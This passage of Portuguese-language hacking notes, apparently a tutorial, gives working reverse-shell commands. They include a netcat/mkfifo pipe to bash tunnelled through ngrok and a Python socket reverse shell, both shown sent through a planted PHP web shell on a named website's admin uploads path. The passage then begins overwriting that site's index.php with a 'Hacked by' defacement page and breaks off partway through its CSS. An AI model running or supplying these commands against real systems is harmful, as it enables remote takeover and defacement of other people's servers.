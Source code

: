 ```bash
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

##### Método Alternativo (Se `-e` Não Estiver Disponível):

Se a sua versão do `netcat` não suporta a opção `-e`, você pode usar `mkfifo` para criar um shell reverso.

No servidor (ouvinte):
```bash
nc -lvp 789 + ngrok tcp 789
```

No cliente (máquina alvo):
```bash
mkfifo /tmp/fifo && nc <IP_do_servidor> <PORT> < /tmp/fifo | /bin/bash > /tmp/fifo 2>&1; rm /tmp/fifo
```

- `mkfifo /tmp/fifo` cria um pipe nomeado temporário.
- `nc <IP_do_servidor> <PORT> < /tmp/fifo` conecta ao servidor e redireciona a saída do `fifo` para a conexão `netcat`.
- `/bin/bash > /tmp/fifo 2>&1` redireciona a saída do bash para o `fifo`.
- `rm /tmp/fifo` remove o `fifo` após a execução.

Resultado do comando (+ngrok):
```bash
ubuntu 18

http://www.bancocn.com/admin/uploads/shellphp.php7?cmd=nc 0.tcp.sa.ngrok.io 15303 -e /bin/bash
```

```bash
mkfifo /tmp/fifo && nc 0.tcp.sa.ngrok.io 12622 < /tmp/fifo | /bin/bash > /tmp/fifo 2>&1; rm /tmp/fifo
```

Shell Reverse (Python)
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```
http://www.bancocn.com/admin/uploads/shellphp.php7?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Html ( [HTML Compressor](https://codebeautify.org/html-compressor) )

Inserindo `html` no arquivo index:
```bash
cat << EOF > index.php
<?php
echo '<html>';
echo '<head>';
echo '<title>Hacked by Baku-Stark</title>';
echo '<style>';
echo '*{';
echo 'margin: 0;';
echo 'padding: 0;';
echo 'box-sizing: border-box;';
echo 'font-family: "Poppins", sans-serif;';
echo '}';
echo 'body{';
echo 'width: 100%;';
```